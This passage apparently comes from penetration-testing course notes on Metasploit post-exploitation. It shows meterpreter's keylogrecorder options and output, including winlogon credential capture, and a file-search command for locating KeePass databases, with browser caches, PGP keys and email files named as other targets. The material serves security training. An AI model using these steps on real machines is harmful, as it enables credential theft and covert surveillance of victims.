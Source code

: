         -c <opt>  Type of key capture. (0) for user key presses, (1) for winlogon credential capture, or (2) for no migration. Default is 2.
        -h        Help menu
        -k        Kill old Process
        -l        Lock screen when capturing Winlogon credentials
        -t <opt>  Time interval in seconds between recollection of keystrokes, default 30 seconds
      ```
      As we can see, with the `-c` option we can instruct the script which type of key to capture (user or `winlogon`)

    Different form previous script, `keylogrecorder` automatically migrates to the correct process, but it also stores all the keystrokes into a local file.
      ```
      meterpreter > run keylogrecorder -c 0
      [*]     explorer.exe Process found, migrating into 3012
      [*] Migration Successful!!
      [*] Starting the keystroke sniffer...
      [*] Keystrokes being saved in to /root/.msf5/logs/scripts/keylogrecorder/192.168.102.157_20160303.4055.txt
      [*] Recording
      ```

      In order to see the keystrokes we just need to open the file stored in the Metasploit logs folder.

Now let's see a few commands that allows us to list files, create files, folders, move between directories, and so on.
  From the meterpreter help manual we can see the list of commands that are implemented.
    ```
    Stdapi: File system Commands
    ============================

      Command         Description
      -------         -----------
      cat             Read the contents of a file to the screen
      cd              Change directory
      download        Download a file or directory
      edit            Edit a file
      getlwd          Print local working directory
      getwd           Print working directory
      ...
    ```

  It does not matter the OS of the exploited machine. These commands work the same way. For example, with the commands `pwd` and `getwd` we are able to get the working directory and then we could list files.

    Thanks to these commands (`search`, `download`, etc) we are able to search and download files like Web Browser cache, IM logs, documents, email files, PGP keys, specific program files like KeePass databases, and so on.

  Let's suppose we want to search for a specific file extension such as KeePass database file. We can do this with the following command:
    ```
    search -d C:\\Users\\els\\ -f *.kdbx
    ```
    Description:
    - `-d` is the path where to begin searching from
    - `-f` is the file pattern to search
